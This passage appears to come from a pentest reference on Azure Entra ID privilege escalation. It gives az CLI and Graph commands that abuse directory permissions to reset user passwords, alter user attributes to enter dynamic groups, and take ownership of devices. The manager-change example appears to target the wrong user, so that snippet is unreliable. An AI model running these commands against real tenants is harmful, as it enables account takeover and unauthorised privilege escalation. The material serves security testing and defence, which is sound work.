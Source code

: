 [[dynamic-groups.md]]

## Users

### `microsoft.directory/users/password/update`

This permission allows to reset password to non-admin users, allowing a potential attacker to escalate privileges to other users. This permission cannot be assigned to custom roles.

```bash
az ad user update --id <user-id> --password "kweoifuh.234"
```

### `microsoft.directory/users/basic/update`

This privilege allows to modify properties of the user. It's common to find dynamic groups that add users based on properties values, therefore, this permission could allow a user to set the needed property value to be a member to a specific dynamic group and escalate privileges.

```bash
#e.g. change manager of a user
victimUser="<userID>"
managerUser="<userID>"
az rest --method PUT \
  --uri "https://graph.microsoft.com/v1.0/users/$managerUser/manager/\$ref" \
  --headers "Content-Type=application/json" \
  --body '{"@odata.id": "https://graph.microsoft.com/v1.0/users/$managerUser"}'

#e.g. change department of a user
az rest --method PATCH \
  --uri "https://graph.microsoft.com/v1.0/users/$victimUser" \
  --headers "Content-Type=application/json" \
  --body "{\"department\": \"security\"}"
```

## Conditional Access Policies & MFA bypass

Misconfigured conditional access policies requiring MFA could be bypassed, check:

[[az-conditional-access-policies-mfa-bypass.md]]

## Devices

### `microsoft.directory/devices/registeredOwners/update`

This permission allows attackers to assigning themselves as owners of devices to gain control or access to device-specific settings and data.

```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/devices/$deviceId/owners/\$ref" \
  --headers "Content-Type=application/json" \
  --body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```
